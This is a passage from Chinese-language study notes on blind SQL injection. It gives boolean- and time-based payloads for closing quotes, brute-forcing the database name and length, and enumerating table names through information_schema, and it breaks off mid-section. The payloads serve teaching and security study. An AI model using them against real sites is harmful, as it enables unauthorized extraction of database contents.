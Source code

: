 - ![image-20220810213304739](sql注入.assets/image-20220810213304739.png)

- 第一步：闭合引号，这个需要自己慢慢试，用`or 1=1  and 1=1`得到正确的sql语句构造方法。
- 先爆破出数据库名字符长度：`and     length(database())> 1 %23` 用二分法慢慢试或直接等号遍历。
- 爆破出当前数据库名：`and ascii(substr(database(),n,1)) = m #`。n就用来遍历数据库名字，m就来确定数据库名字某位是哪一个字符
- 爆破出当前数据库的表个数：`select count(table_name) as a from information_schema.tables where table_schema=database() having a={n})`。n爆破表个数。HAVING     子句可以让我们筛选满足条件的数据。
- 爆破每一个表的表名长度：`(select length(table_name) from information_schema.tables where table_schema=database() limit {n},1)={m}`
- 爆破各个表名：`and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit n,1),q,1))>m`

- 爆破表的列名。
- 爆破数据

####  基于时间的盲注

**适用场景**：没有数据回显，条件正确与否结果一样。使用sleep时正确sql语句会延迟，错误不会延迟。
**利用方式**：构造判断条件，添加**sleep**，逐个猜测

- 第一个步：闭合引号，因为页面同样的，所以我们需要构造` id=1’ and sleep(5) #`,一旦有延迟5秒，那我们就构造了正确的sql语句。通过不断试引号括号注释，找到闭和前面注释后面的方式。

- 先爆破出数据库名字符长度：使用if函数，`and if((length(database()) = m),sleep(1),0)`，睡眠时间不要太短，1秒就可以了。
- 爆破出当前数据库名： `and if((ascii(substr(database(),n,1)) > m),sleep(1),0)`
